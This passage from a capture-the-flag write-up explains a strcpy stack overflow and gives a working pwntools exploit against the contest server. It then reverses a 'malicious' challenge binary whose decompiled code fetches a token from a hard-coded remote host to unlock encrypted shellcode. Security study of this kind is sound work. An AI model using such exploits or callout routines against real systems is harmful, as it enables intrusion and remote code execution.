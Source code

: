 The second bug we found is that the program will segfault when we call migrate on overflowed project. We tried to hook on the emulator to figure out which instruction causing the segfault. Surprisingly, the reason is that program counter is in non executable data segment.
We find the root cause is `strcpy` in `migrate` which overflow the stack.
![](https://i.imgur.com/iDqg69r.png)

Now, the path to our flag is clear: change the return address to flag printing gadget and win :)

here is the exploit:

```python=
from pwn import *
 
p = remote("110.10.147.39",31337)
def Add(name, des):
    p.sendafter(b">>> ",b'A')
    p.sendafter(b"):", name)
    p.sendafter(b"):", des)
 
Add(b'0',p64(0x80808080808084B6))
for _ in range(7):
    Add(b'0',b'trash')

p.sendafter(b">>> ",b'M')
p.sendafter(b":",b'0')
p.sendafter(b":","trash")                                                                             
flag = p.recvuntil(b"\x00")
print(flag)
```

### malicious

Looks very simple, the function at `0x403ED2` is useless, patch it.
And the function at `0x403f8c` connect to an HTTP server on 195.157.15.100:818 to ask for a token, the token would be used as the first argument to call md5 function, which's not just a hash function, it would also affect the result of the shellcode in the next step. The md5 result should be `d4ee0fbbeb7ffd4fd7a7d477a7ecd922` which is the md5 result of `activate`.

Then in the function at `0x403DB1`, it would decrypt the shellcode which was encrypted by camellia or something, that's not important, the result only affect by the token in the last step. 


```c
int sub_403F8C()
{
  struct sockaddr name; // [esp+18h] [ebp-1B0h]
  struct WSAData WSAData; // [esp+28h] [ebp-1A0h]
  void *Buf1; // [esp+1B8h] [ebp-10h]
  SOCKET s; // [esp+1BCh] [ebp-Ch]

  WSAStartup(0x202u, &WSAData);
  s = socket(2, 1, 0);
  memset(&name, 0, 0x10u);
  name.sa_family = 2;
  *(_DWORD *)&name.sa_data[2] = inet_addr("195.157.15.100");
  *(_WORD *)name.sa_data = htons(0x332Cu);
  if ( connect(s, &name, 16) )
    return 0;
  send(s, "GET /status HTTP/1.1\r\n", 22, 0);
  recv(s, token, 8, 0);
  Buf1 = md5(token, 8u);
  return memcmp(Buf1, &md5_hash, 0x10u);
}
```
